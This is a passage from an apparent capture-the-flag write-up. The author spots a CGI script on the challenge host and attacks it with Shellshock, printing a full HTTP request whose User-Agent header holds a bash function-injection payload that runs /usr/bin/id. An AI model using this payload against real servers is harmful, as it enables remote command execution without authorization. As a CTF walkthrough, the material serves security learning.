 ```html

<script>
const styleLink = document.createElement('link');
styleLink.href = '/styles/base.css';
styleLink.rel = "stylesheet";

const frameEls = document.getElementsByTagName('iframe');
for (let i = 0; i < frameEls.length; i++) {
const frameEl = frameEls[i];
frameEl.addEventListener('load', () => {
frameEl.contentDocument.head.appendChild(styleLink);

setTimeout(() => {
frameEl.contentWindow.location.reload();
}, 5000);
});
}
</script>
</body>

</html>
```

we can see that https://stt.uctf.ir/cgi-bin/uptime.sh is being included in the main page with a iframe.

now the first thing that came to mi mind is try shellshock as it is probably the most popular exploit for folder cgi-bin

here's an in depth explanation of the exploit
https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

luckily it worked first attempt


**request
```
GET /cgi-bin/uptime.sh HTTP/2
Host: stt.uctf.ir
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: () { : ; }; echo; echo; /usr/bin/id
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Content-Length: 0
```
